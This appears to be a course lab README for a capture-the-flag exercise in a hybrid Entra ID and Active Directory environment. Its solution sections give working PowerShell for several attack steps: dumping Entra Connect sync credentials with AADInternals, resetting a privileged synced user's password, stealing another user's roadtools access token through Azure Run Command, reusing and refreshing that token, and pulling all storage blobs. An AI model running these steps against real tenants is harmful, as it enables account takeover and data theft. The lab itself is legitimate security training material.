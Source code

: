 # LAB 4 : Capture the Flag (CTF) Challenge

## Preparations
* **DO NOT** look at the scripts content / output

1. RDP login to DC VM using the YOURDOMAIN\\**rootuser**, then run the following script as admin (when asked, login using the ENTRA CREDS (!) - you will be asked twice)
    ```powershell
    # when asked, login using the ENTRA ADMIN CREDS (!)
    $tenantId = "YOUR_TENANT_ID" # you can get it here https://entra.microsoft.com/#view/Microsoft_AAD_IAM/TenantOverview.ReactView
    Invoke-WebRequest -Uri "https://raw.githubusercontent.com/shackcrack007/hybrid-attacks-course-template/refs/heads/main/labs%20(for%20course%20sessions%2C%20not%20part%20of%20setup)/lab-4-full-attack-flow/lab4PreparationScript.ps1" -OutFile "C:\\lab4PreparationScript.ps1"; `
    & "C:\\lab4PreparationScript.ps1" -TenantID $tenantId
    ```
    Ignore errors such as "*cannot be created because function capacity 4096 has been exceeded for this scope*"..

2. RDP login to Win11 VM using the YOURDOMAIN\\**user1**, then run the following script as admin:
    ```powershell
    Invoke-WebRequest -Uri "https://raw.githubusercontent.com/shackcrack007/hybrid-attacks-course-template/refs/heads/main/labs%20(for%20course%20sessions%2C%20not%20part%20of%20setup)/lab-4-full-attack-flow/lab4Win11VmPrepScript.ps1" -OutFile "C:\\lab4Win11VmPrepScript.ps1"; `
        & "C:\\lab4Win11VmPrepScript.ps1"
    ```
    keep this window open in the background - **you're not allowed to use it from now on**

## Instructions: Start Here
1. Your goal is to find the `secret.txt` file 
2. forget everything you knew: from this point on you DON'T know what the Entra admin password is (i.e. what's the password of ``user1`` / ``rootuser`` / ``admin``..), and what the VMs passwords are
3. **DO NOT** password reset ``user1``
3. **Starting point:** as the attacker the only thing you have is the RDP session on the DC VM. Good luck! 

Do not use hints unless you really have to..

## Hints

<details>
    <summary><b>First hint: where the secret.txt file isn't stored</b></summary>

    The file isn't on any VM
</details>


<details>
    <summary><b>Entire attack path hint (use as last resort)</b></summary>

![entire_path](entire_path.png)
    1. Pass reset: DC vm -> reset pass of "user2" using Entra Sync credentials

    2. Login to Azure as that user using your browser

    3. Azure Portal Run Command on Win11 VM (the VM that has user1 logged on)

    4. Steal user1 PRT Cookie by running powershell script from the Run Command extension on the Azure portal 

    5. Use PRT Cookie to get access token and authenticate using PowerShell to MS Graph API read secret.txt from storage account
</details>



## Step 1

<details>
<summary><b>Hint 1</b></summary>
    
    1. Find a way to compromise a synced user in order to jump to the cloud

    2. Recon for roles / azure permissions to see which user you want to compromise

    3. it's not "user1"...
</details>


<details>
    <summary><b>Hint 2</b></summary>
    
    Abuse the Entra Connect password reset feature using AADInternals
</details>



<details>
<summary><b>Solution</b></summary>
on the DC VM:

```powershell
Import-Module AADInternals -RequiredVersion "0.9.4"
Get-AADIntSyncCredentials
```

Login using dumped Sync_XX account:
```powershell
# Prompt for credentials and retrieve & store access token to cache
# Enter your dumped Sync_XX account creds!
$at = Get-AADIntAccessTokenForAADGraph
$tenant = Get-AADIntSyncConfiguration -AccessToken $at # get the tenant ID

Connect-AzureAD -AadAccessToken $at -TenantId $tenant.TenantId -AccountId "1b730954-1685-4b74-9bfd-dac224a7b894" # "Azure Active Directory PowerShell" app id
```

Enumerate users:
```powershell
# list on-premise, synced users with their roles
$onpremSyncedUsers = Get-AzureADUser -All $true | Where-Object { 
    $_.OnPremisesSecurityIdentifier -ne $null 
} 
$onpremSyncedUsers | ForEach-Object { 
    $user = $_; 
    Get-AzureADDirectoryRole | ForEach-Object { 
        $role = $_;
        Get-AzureADDirectoryRoleMember -ObjectId $role.ObjectId | Where-Object { $_.ObjectId -eq $user.ObjectId } | Select-Object @{Name='UserPrincipalName';Expression={$user.UserPrincipalName}}, @{Name='OnPremisesSecurityIdentifier';Expression={$user.OnPremisesSecurityIdentifier}}, @{Name='ImmutableId';Expression={$user.ImmutableId}}, @{Name='Role';Expression={$role.DisplayName}} 
    } 
} | Format-Table -Wrap -AutoSize

```
Target user2, as he holds a privileged role.. 

Reset the victim user's Entra password:
```powershell
Set-AADIntUserPassword -SourceAnchor "IMMUTABLE_ID" -Password "MYPASS"  -AccessToken $at -Verbose 
```
</details>


## Step 2

<details>
    <summary><b>Hint 1</b></summary>
    
    Login to Azure as that user and see what you have access to
</details>

<details>
    <summary><b>Hint 2</b></summary>

    You can find the virtual machine Win11 and using the Run Command extension execute PowerShell script on it
</details>


<details>
    <summary><b>Hint 3</b></summary>
    
    Use this ability to get a PRT Cookie so you can impersonate as that user and steal its identity and permissions
</details>

<details>
    <summary><b>Hint 4</b></summary>

    user1 is logged into that Win 11 vm, and he's a part of the company's red team, he continuously, on a regular basis, runs scripts from his Desktop folder to map their Entra tenant's attack surface. Use that to your advantage.
</details>

<details>
<summary><b>Solution</b></summary>

user1 uses roadrecon to map attack surfaces in his company's attack surface, the script is executed on a regular basis.
As we learned, roadrecon writes a file with the access token called `.roadtools_auth`, we can take that access token and steal it!

1. Login to portal.azure.com as user2
2. Run the following command on the Win11 VM from the Run Command Window in the Azure portal:
3. `type c:\users\user1\desktop\.roadtools_auth`


If the file is empty, then make sure `user1` is logged in properly:
1. RDP and login to the Win11 VM using the user `user1@YOURDOMAIN.onmicrosoft.com`
2. run `dsregcmd /status` and make sure you don't have "invalid".. fields, and that you see `AzureAdPrt : YES`
   ![prt](prtexists.png)
3. Make sure you are verified:
   1. open Edge and make sure you have your profile logged in
   2. go to Start -> Account Info and make sure you don't have any warning about not being verified, if you have then verify yourself.
      ![verify](verifyAccount.png)
4. if there's still an issue, restart the vm and login again
5. if it's still empty, rerun the task scheduler ![runTask](runTask.png)
</details>

## Step 3
<details>
    <summary><b>Hint 1</b></summary>
    
    Using the acquired access token, what can you do?
    You may use your own PC / DC VM
</details>

<details>
    <summary><b>Hint 2</b></summary>
    
    Recon as that user and see what he has access to..

```powershell
$at = "eyJ"... # what you've obtained from the Run Command hack
$userUPN = "user2@YOURDOMAIN.onmicrosoft.com" # you can get it from the access token if you'll parse in https://jwt.io
$tenantId = "YOUR_TENANT_ID" # you can get it here https://entra.microsoft.com/#view/Microsoft_AAD_IAM/TenantOverview.ReactView


Connect-AzureAD -AccountId  $userUPN -TenantId $tenantId -AadAccessToken $at
Connect-AzAccount -AccountId  $userUPN -TenantId $tenantId -AccessToken $at 

# If it doesn't work, verify the access token— if it has expired, renew it by:
$refreshToken = <the refresh token from the `roadtools_auth` file>
$at=Get-AADIntAccessTokenWithRefreshToken -ClientId "1b730954-1685-4b74-9bfd-dac224a7b894" -Resource "https://graph.windows.net" -TenantId $tenantId -RefreshToken $refreshToken
```
</details>

<details>
    <summary><b>Hint 3</b></summary>
    
```powershell
# List current user's Azure Role Assignments using Azure PowerShell

$userObjectId = "686ebf9d-25..." # get it by parsing the JWT token and looking for the 'oid' field
$roleAssignments = Get-AzRoleAssignment -ObjectId $userObjectId
$roleAssignments | ForEach-Object {
    Write-Output "Role: $($_.RoleDefinitionName) - Scope: $($_.Scope)"
}
```
</details>

<details>
    <summary><b>Hint 4</b></summary>
    
    We can see that there's a storage account that this user has access to..
</details>


<details>
    <summary><b>Solution</b></summary>
    
```powershell
# Recon as that user and see what he has access to..
$at = "eyJ"... # what you've obtained from the Run Command hack
$userUPN = "user1@YOURDOMAIN.onmicrosoft.com" # you can get it from the access token if you'll parse in https://jwt.io
$tenantId = "YOUR_TENANT_ID" # you can get it here https://entra.microsoft.com/#view/Microsoft_AAD_IAM/TenantOverview.ReactView


Connect-AzureAD -AccountId $userUPN -TenantId $tenantId -AadAccessToken $at
Connect-AzAccount -AccountId $userUPN -TenantId $tenantId -AccessToken $at 

# If it doesn't work, verify the access token— if it has expired, renew it by:
$refreshToken = <the refresh token from the `roadtools_auth` file>
$at=Get-AADIntAccessTokenWithRefreshToken -ClientId "1b730954-1685-4b74-9bfd-dac224a7b894" -Resource "https://graph.windows.net" -TenantId $tenantId -RefreshToken $refreshToken

# List current user's Azure Role Assignments using Azure PowerShell
$userObjectId = "686ebf9d-25..." # get it by parsing the JWT token and looking for the 'oid' field
$roleAssignments = Get-AzRoleAssignment -ObjectId $userObjectId
$roleAssignments | ForEach-Object {
    Write-Output "Role: $($_.RoleDefinitionName) - Scope: $($_.Scope)"
}
```
We can see that there's a storage account that this user has access to..
```powershell
# Get all storage accounts
$storageAccounts = Get-AzStorageAccount

foreach ($storageAccount in $storageAccounts) {
    Write-Output "Storage Account: $($storageAccount.StorageAccountName)"

    # Get the context for the storage account
    $context = $storageAccount.Context

    # List all containers in the storage account
    $containers = Get-AzStorageContainer -Context $context

    foreach ($container in $containers) {
        Write-Output "  Container: $($container.Name)"

        # List all blobs in the container
        $blobs = Get-AzStorageBlob -Container $container.Name -Context $context

        foreach ($blob in $blobs) {
            Write-Output "    Blob: $($blob.Name)"

            # Download the blob content to a temporary location
            $tempFilePath = Join-Path -Path $env:TEMP -ChildPath $blob.Name
            Get-AzStorageBlobContent -Blob $blob.Name -Container $container.Name -Context $context -Destination $tempFilePath -Force

            # Print the content of the blob
            $blobContent = Get-Content -Path $tempFilePath
            Write-Output "      Content: $blobContent"
        }
    }
}
```

### The content of "secret.txt" in storage account is your medal, mazal tov hacker cracker!

#### Bonus: 
Go back to the beginning, and try steal user1 identity using silver ticket (Seamless SSO) instead of password reset
</details>


## Don't forget
Once done, delete the lab resource groups to clean up the resources